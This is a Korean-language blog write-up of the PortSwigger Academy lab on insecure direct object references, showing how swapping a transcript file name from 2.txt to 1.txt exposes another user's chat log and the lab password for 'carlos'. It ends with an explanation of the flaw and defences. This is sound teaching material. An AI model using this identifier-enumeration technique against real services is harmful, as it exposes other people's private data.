



+++
url = '/write-up/portswigger/access-control/write-up-portswigger---insecure-direct-object-references/'
date = '2026-07-04T09:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Insecure direct object references'
summary = "채팅 로그를 순번 파일명으로 저장하는 기능에서 1.txt를 직접 요청해 타인의 비밀번호를 얻는 IDOR 풀이"
toc = true
tags = ["Access Control", "IDOR", "PortSwigger", "Apprentice"]
+++

---

## 문제 분석

> **난이도**: `APPRENTICE`  
> **Lab**: [Insecure direct object references](https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references)

> 

사용자 채팅 로그를 서버 파일 시스템에 그대로 저장하며, 정적 URL로 조회할 수 있다. 이를 이용해 `carlos`의 비밀번호를 찾아 로그인하면 문제가 해결된다.

### Access Control 진단

실시간 채팅 기능에 들어가면 대화 내역을 내려받는 **View transcript** 버튼이 있다. 이를 누르면 채팅 로그 파일이 다운로드된다.



다운로드 요청은 다음과 같다.

```http
GET /download-transcript/2.txt HTTP/2
Host: <lab-id>.web-security-academy.net
```

파일명이 `2.txt` — **단순 순번 규칙**을 따른다. 내 로그가 2번이라면 1번은 다른 사용자의 로그일 것이다. `1.txt`를 요청해 본다.

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Content-Disposition: attachment; filename="1.txt"
X-Frame-Options: SAMEORIGIN
Content-Length: 520

CONNECTED: -- Now chatting with Hal Pline --
You: Hi Hal, I think I've forgotten my password and need confirmation that I've got the right one
Hal Pline: Sure, no problem, you seem like a nice guy. Just tell me your password and I'll confirm whether it's correct or not.
You: Wow you're so nice, thanks. I've heard from other people that you can be a right ****
Hal Pline: Takes one to know one
You: Ok so my password is lge0mg6kzjndsal9rgi2. Is that right?
Hal Pline: Yes it is!
You: Ok thanks, bye!
Hal Pline: Do one!
```

`1.txt`에는 다른 사용자의 대화가 담겨 있고, 그 안에 비밀번호 `lge0mg6kzjndsal9rgi2`가 평문으로 노출되어 있다.

---

## 익스플로잇

로그에서 얻은 비밀번호로 `carlos` 계정에 로그인하면 문제가 해결된다.

```text
carlos의 비밀번호: lge0mg6kzjndsal9rgi2
```



---

## 정리

IDOR라는 이름은 이 랩과 같은 형태에서 나왔다. 서버가 내부 객체(여기서는 로그 파일)를 **사용자가 조작할 수 있는 직접 참조**(순번 파일명)로 노출하면서, 그 참조에 접근 제어를 걸지 않은 것이다. `/download-transcript/2.txt`에서 `2`를 `1`로 바꾸는 데 필요한 것은 발상 하나뿐이다.

앞선 IDOR 랩들이 `id` 쿼리 파라미터를 다뤘다면, 여기서는 참조가 **URL 경로의 파일명**이라는 점이 다르다. 형태는 달라도 원리는 같다 — 클라이언트가 지정한 식별자로 리소스를 반환하면서 그 리소스가 요청자의 것인지 확인하지 않았다. 참조가 순번이라 예측까지 자명하다.

이 랩은 두 가지 부수적 교훈도 남긴다. 하나는 사용자 데이터를 파일 시스템에 저장할 때 접근 제어가 애플리케이션 로직을 벗어나기 쉽다는 것 — 파일을 정적 리소스처럼 서빙하면 권한 검사가 통째로 빠진다. 다른 하나는 비밀번호를 대화·로그·평문으로 남기는 관행의 위험이다.

진단에서는 다운로드·조회 기능의 식별자(파일명, 순번, `?doc=`, `?id=`)를 인접 값으로 바꿔 접근이 허용되는지 확인한다. 순번은 위아래로, 파일명은 확장자를 유지한 채 번호만 바꿔 시도한다. 방어는 파일을 순번이 아니라 추측 불가능한 식별자에 매핑하고, 조회 시 그 리소스의 소유자가 요청자인지 서버가 검증하는 것이다. 파라미터 기반 IDOR은 [User ID controlled by request parameter](/write-up/portswigger/access-control/write-up-portswigger---user-id-controlled-by-request-parameter/)에서 다뤘다.
